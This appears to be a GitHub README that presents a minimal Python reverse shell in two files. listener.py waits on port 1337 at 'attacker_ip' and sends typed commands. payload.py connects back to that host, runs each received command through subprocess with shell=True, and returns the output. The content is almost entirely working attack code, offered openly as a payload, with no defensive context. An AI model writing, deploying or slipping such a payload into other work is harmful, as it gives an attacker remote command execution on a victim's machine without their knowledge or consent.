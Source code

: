 <h2 align="center">Server-Client Communication</h2>
<p align="center"><img width="350" height="350" src="./src/banner_cnph.gif"></p>

- - - - - - - - - - - - - - - - - - - - - -
> [listener.py](listener.py)
```python
import socket

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

listener.bind(("attacker_ip", 1337))

listener.listen()

print("Server has started")

connection, address = listener.accept()
print(f"Connected to {address}")

while True:
	## continuously send commands to be executed in client machine
	cmd = input("enter a command: ") # string input	
	connection.send(bytes(cmd, "utf-8")) # typecasted and converted into bytes
	
	output = connection.recv(2048) # receive the output from client machine
	print(output.decode("utf-8")) # display decoded bytes into string
```
---
> [payload.py](payload.py)
```python
import socket
import subprocess

payload = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload.connect(("attacker_ip", 1337))

print("Connected")

while True:
	## continuously receive command data
	cmd = payload.recv(2048) # 1024 is approximately 1K bytes, 2048 is 2K bytes of data
	cmd = cmd.decode("utf-8") # decode bytes into string
	output = subprocess.check_output(cmd, shell = True) # store output in a variable
	payload.send(output) # output should be sent back to server machine
```